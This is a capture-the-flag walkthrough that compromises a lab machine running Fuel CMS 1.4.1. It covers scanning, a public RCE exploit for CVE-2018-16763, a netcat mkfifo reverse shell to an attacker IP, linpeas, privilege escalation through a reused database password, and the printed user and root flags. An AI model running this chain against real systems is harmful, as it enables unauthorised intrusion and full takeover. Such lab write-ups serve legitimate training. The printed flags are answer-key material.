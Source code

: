 finding the ip
```
sudo arp-scan -l
```

nmap scan:
```
nmap -sV -O -T4 --min-rate=10000 $ip
```
output
```zsh
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 08:00:27:9F:EC:DF (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
```

gobuster:
```
gobuster dir -u http://$ip -w /usr/share/dirb/wordlists/common.txt -t 300 -x txt,php,html -q
```
output
```zsh
/.hta.php             (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 297]
/@                    (Status: 400) [Size: 1134]
/@.html               (Status: 400) [Size: 1134]
/@.txt                (Status: 400) [Size: 1134]
/.hta.txt             (Status: 403) [Size: 296]
/0                    (Status: 200) [Size: 16597]
/.hta.html            (Status: 403) [Size: 297]
/assets               (Status: 301) [Size: 315] 
/.htpasswd.txt        (Status: 403) [Size: 301]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd.html       (Status: 403) [Size: 302]
/.htaccess.txt        (Status: 403) [Size: 301]
/.hta                 (Status: 403) [Size: 292]
/.htaccess.php        (Status: 403) [Size: 301]
/.htpasswd.php        (Status: 403) [Size: 301]
/@.php                (Status: 400) [Size: 1134]
/home                 (Status: 200) [Size: 16597]
/index.php            (Status: 200) [Size: 16597]
/index                (Status: 200) [Size: 16597]
/index.php            (Status: 200) [Size: 16597]
/.htaccess.html       (Status: 403) [Size: 302]
/lost+found           (Status: 400) [Size: 1134]
/lost+found.html      (Status: 400) [Size: 1134]
/lost+found.php       (Status: 400) [Size: 1134]
/lost+found.txt       (Status: 400) [Size: 1134]
/offline              (Status: 200) [Size: 70]
/robots.txt           (Status: 200) [Size: 30]
/robots.txt           (Status: 200) [Size: 30]
/server-status        (Status: 403) [Size: 301]
```
from the results
- Normal 200 OK responses on `/index.php`, `/home`, `/offline`, `/robots.txt`.
- `/assets` redirects (301) to a directory.

saw a login page at `fuel/login`
logged using 
admin
admin
didn't find anything useful

used searchsploit for fuel cms
```
searchsploit fuel 1.4
```
output
```zsh
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                                                                                                        | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                                                                                                        | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                                                                                                                        | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                                                                                                                       | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                                                                                                                              | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                                                                                                                  | php/webapps/48778.txt
```

download the exploit `Fuel CMS 1.4.1 - Remote Code Execution (3)`
```
searchsploit -m "php/webapps/50477.py"
```
output
```zsh
  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (3)
      URL: https://www.exploit-db.com/exploits/50477
     Path: /usr/share/exploitdb/exploits/php/webapps/50477.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/aswil/Trash/50477.py
```

run the exploit
```
python3 50477.py -u http://$ip
```
output
```zsh
[+]Connecting...
Enter Command $
```

```
uname -a
cat /etc/os-release
```
output
```shell
systemLinux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

systemNAME="Ubuntu"
VERSION="16.04.6 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.6 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

check nc
```
Enter Command $which nc
```
output
```shell
system/bin/nc
```

attempt for a revshell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.170.71.2 1337 >/tmp/f
```
listener
```
nc -lnvp 1337
```
got the reverse shell

to get a more stable shell and moved to `/tmp`
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
cd /tmp
```

hosted a python server
downloaded `linpeas.sh`
run linpeas.sh
```
chmod +x linpeas.sh
./linpeas.sh
```
output
```bash
╔══════════╣ Analyzing Backup Manager Files (limit 70)

-rwxrwxrwx 1 root root 4646 Jul 26  2019 /var/www/html/fuel/application/config/database.php
|	['password'] The password used to connect to the database
|	['database'] The name of the database you want to connect to
	'password' => 'mememe',
	'database' => 'fuel_schema',
```

read the file `/var/www/html/fuel/application/config/database.php`
```
cat /var/www/html/fuel/application/config/database.php
```
output
```bash
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
```
got the password as `mememe`

switch user
```
www-data@ubuntu:/tmp$ sudo su
sudo su
[sudo] password for www-data: mememe

Sorry, try again.
www-data@ubuntu:/var/www/html/fuel/application/config$ su root
su root
Password: mememe

root@ubuntu:/var/www/html/fuel/application/config# 
```
Access Granted ROOT

read the flag
```
root@ubuntu:/var/www/html/fuel/application/config# cd /root
cd /root
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
b9bbcb33e11b80be759c4e844862482d 
root@ubuntu:~# cd /home
cd /home
root@ubuntu:/home# ls
ls
www-data
root@ubuntu:/home# cd ww	
cd www-data/
root@ubuntu:/home/www-data# ls
ls
flag.txt
root@ubuntu:/home/www-data# cat flag.txt
cat flag.txt
6470e394cbf6dab6a91682cc8585059b 
```

user flag: `6470e394cbf6dab6a91682cc8585059b`
root flag: `b9bbcb33e11b80be759c4e844862482d`
